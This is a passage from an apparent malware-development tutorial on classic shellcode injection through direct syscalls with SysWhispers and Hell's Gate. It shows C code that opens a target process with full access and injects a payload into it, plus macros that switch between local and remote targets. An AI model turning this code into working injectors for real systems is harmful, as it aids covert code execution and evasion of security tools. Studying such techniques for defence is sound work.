#ifdef LOCAL_INJECTIONif (!ClassicInjectionViaSyscalls(&Table, (HANDLE)-1, Payload, sizeof(Payload)))
return 0x1;
#endif // LOCAL_INJECTION// If remote injection
#ifdef REMOTE_INJECTION// Open a handle to the target process
printf("[i] Targeting process of id : %d \n", PROCESS_ID);
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID);
if (hProcess == NULL) {
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
return -1;
}
if (!ClassicInjectionViaSyscalls(&Table, hProcess, Payload, sizeof(Payload)))
return 0x1;
#endif // REMOTE_INJECTIONreturn 0x00;
}Local vs Remote Injection
Since the implemented ClassicInjectionViaSyscalls can work on both the local process and the remote process level, a preprocessor macro code was constructed to target the local process if LOCAL_INJECTION is defined. The preprocessor code is shown below.
#define LOCAL_INJECTION#ifndef LOCAL_INJECTION#define REMOTE_INJECTION// Set the target process PID
#define PROCESS_ID 18784 #endif // !LOCAL_INJECTIONThe #define LOCAL_INJECTION can be commented out to target a remote process. In this case, the process of PID equal to PROCESS_ID will be targeted. If #define LOCAL_INJECTION is not commented, which is the default setting in the shared code, then the local process's pseudo handle is used which is equal to (HANDLE)-1.
Demo
Using the SysWhispers implementation locally.

Using SysWhispers implementation remotely.

Using Hell's Gate implementation locally.

Using Hell's Gate implementation remotely.
